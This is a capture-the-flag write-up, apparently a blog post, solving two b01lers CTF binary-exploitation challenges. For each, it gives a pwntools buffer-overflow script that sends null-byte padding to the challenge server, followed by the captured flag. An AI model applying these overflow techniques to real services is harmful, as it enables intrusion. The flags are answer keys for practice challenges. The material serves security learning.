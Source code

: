 ## Rev
<ul style="line-height: 10px;">
    <li> <a href="#LinkBattle">Rev - Link Battle </a> </li>
    <li> <a href="#ThumbThumb">Rev - Thumb Thumb </a> </li>
</ul>

<h1 id="Metacortex">Metacortex</h1>

### Description:

    This company is one of the top software companies in the world, 
    because every single employee knows that they are part of a whole. 
    Thus, if an employee has a problem, the company has a problem.
    nc chal.ctf.b01lers.com 1014

### Solution:

this is a simple buffer overflow challenge, we need to pass the if condition, we have to set 
%rax and %rbx to 0x0.
{% highlight python %}
from pwn import *
#r = process("./metacortex-72ec7dee20d0b191fe14dc2480bd3f43")
r = remote("chal.ctf.b01lers.com", 1014)
p = "\x00" * 104
r.sendline(p)
r.interactive()
{% endhighlight %}

FLAG: flag{Ne0_y0uAre_d0ing_well}

<h1 id="ThereisnoSpoon">There is no Spoon </h1>

### Description:

    Neo: bend reality, and understand the truth of the matrix.
    nc chal.ctf.b01lers.com 1006

### Solution:

another easy challenge, in this challenge we have to overwrite variable `changeme`

{% highlight python %}
from pwn import *
#r = process("thereisnospoon-3b08fb627c71c8c2149d1e57d98a1934")
r = remote("chal.ctf.b01lers.com", 1006)
r.sendline("\x00"*900)
r.sendline("90000000000000")
r.interactive()
{% endhighlight %}

FLAG: flag{l0tz_0f_confUsi0n_vulnz}

<h1 id="TheOracle">The Oracle</h1>
